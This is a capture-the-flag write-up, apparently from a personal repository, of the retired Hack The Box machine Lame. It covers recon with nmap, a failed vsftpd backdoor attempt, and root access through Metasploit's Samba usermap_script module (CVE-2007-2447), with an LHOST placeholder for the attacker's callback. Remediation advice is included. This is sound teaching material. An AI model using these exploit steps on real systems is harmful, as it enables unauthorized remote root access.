



# Lame — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Samba `usermap_script` RCE (CVE-2007-2447) |

---

## TL;DR

Lame was the very first machine ever published on Hack The Box, and it's a
single-exploit box: an old Samba version accepts shell metacharacters in its
username-mapping feature, giving direct, unauthenticated root execution with
no chaining required.

---

## Recon & Enumeration

```bash
nmap -A -T4 --top-ports 10.10.10.3
```



Three services stood out: **vsftpd 2.3.4** (anonymous login allowed) on FTP,
OpenSSH 4.7p1 on port 22, and **Samba 3.0.20-Debian** on 139/445. vsftpd 2.3.4
is itself infamous for a backdoored release, so it was the first thing tried.

---

## Foothold / Initial Access



The vsftpd backdoor module in Metasploit ran without creating a session —
consistent with the backdoor either being patched out of this particular
build or blocked at the network level. Rather than dig further into a
dead end, attention moved to the Samba version instead.

Samba 3.0.20 is vulnerable to **CVE-2007-2447**, a remote code execution bug
in the `usermap_script` configuration option: it passes unsanitized input
(including shell metacharacters) from an authentication request straight to
a shell command. A matching Metasploit module made exploitation direct:

```
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <ATTACKER_IP>
run
```



This returned a session with **root** privileges immediately — no privilege
escalation phase needed. Both flags were retrieved in the same step.

---

## Lessons Learned

- **Not every box requires a privilege-escalation chain** — Lame is a useful
  reminder that some real-world vulnerabilities (this one included) simply
  grant root outright, and it's worth confirming what privilege level an
  exploit landed at before assuming more work is needed.
- **A failed exploit attempt is information, not just a wall** — the vsftpd
  attempt not creating a session redirected effort productively toward Samba
  rather than repeatedly retrying the same dead end.
- **Old CVEs remain a real teaching tool for pattern recognition** —
  unsanitized input reaching a shell command is a bug class that reappears
  constantly in modern software, just in different services.

---

## Remediation

- Never run software over 15 years past its last security update — Samba
  3.0.20 and vsftpd 2.3.4 both predate current supported release lines by a
  huge margin.
- Sanitize or eliminate any configuration option (like `usermap_script`) that
  passes user-influenced data to a shell.
- Segment or firewall legacy systems that can't be immediately patched or
  replaced.

---

## Tools used

- `nmap`
- Metasploit (`vsftpd_234_backdoor`, `usermap_script`)

---

**Machine:** [Hack The Box — Lame](https://www.hackthebox.com/machines/lame)
